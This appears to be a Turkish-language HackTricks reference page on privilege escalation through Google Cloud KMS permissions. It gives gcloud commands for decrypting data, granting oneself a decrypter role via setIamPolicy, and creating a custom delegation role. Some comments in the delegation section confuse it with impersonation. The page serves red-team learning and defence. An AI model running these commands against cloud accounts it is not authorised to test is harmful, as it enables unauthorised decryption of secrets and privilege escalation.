 # GCP - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

KMS hakkında bilgi:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

KMS'de **izinlerin** yalnızca Organizasyonlar, Klasörler ve Projelerden değil, aynı zamanda **Anahtar Halkalarından** da **devralındığını** unutmayın.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Bu izni, üzerinde bu izne sahip olduğunuz anahtarla **bilgileri şifre çözmek için** kullanabilirsiniz.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Bu izne sahip bir saldırgan, **kendisine izinler verebilir** ve anahtarı kullanarak bilgileri şifrelerini çözebilir.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Bu delegasyonun nasıl çalıştığına dair kavramsal bir açıklama:

1. **Hizmet Hesabı A**, KMS'de belirli bir anahtarı kullanarak şifre çözme işlemi için doğrudan erişime sahiptir.
2. **Hizmet Hesabı B**, `useToDecryptViaDelegation` iznine sahiptir. Bu, onun Hizmet Hesabı A adına KMS'den veri şifre çözme talep etmesine olanak tanır.

Bu **izin, KMS hizmetinin bir şifre çözme talebi yapıldığında izinleri kontrol etme şekliyle örtük olarak kullanılır**.

Google Cloud KMS API'sini (Python veya başka bir dilde) kullanarak standart bir şifre çözme talebi yaptığınızda, hizmet **talep eden hizmet hesabının gerekli izinlere sahip olup olmadığını kontrol eder**. Eğer talep, **`useToDecryptViaDelegation`** iznine sahip bir hizmet hesabı tarafından yapılırsa, KMS bu **hesabın anahtarın sahibi adına şifre çözme talep etmesine izin verilip verilmediğini doğrular**.

#### Delegasyon İçin Ayarlama

1. **Özel Rolü Tanımlayın**: Özel rolü tanımlayan bir YAML dosyası oluşturun (örneğin, `custom_role.yaml`). Bu dosya, `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` iznini içermelidir. Bu dosyanın nasıl görünebileceğine dair bir örnek:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Özel Rolü gcloud CLI Kullanarak Oluşturun**: Google Cloud projenizde özel rolü oluşturmak için aşağıdaki komutu kullanın:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

`[YOUR_PROJECT_ID]` ifadenizi Google Cloud proje kimliğinizle değiştirin.

3. **Özel Rolü Bir Hizmet Hesabına Verin**: Bu izni kullanacak bir hizmet hesabına özel rolünüzü atayın. Aşağıdaki komutu kullanın:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` ve `[SERVICE_ACCOUNT_EMAIL]` değerlerini sırasıyla proje kimliğiniz ve hizmet hesabının e-posta adresi ile değiştirin.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
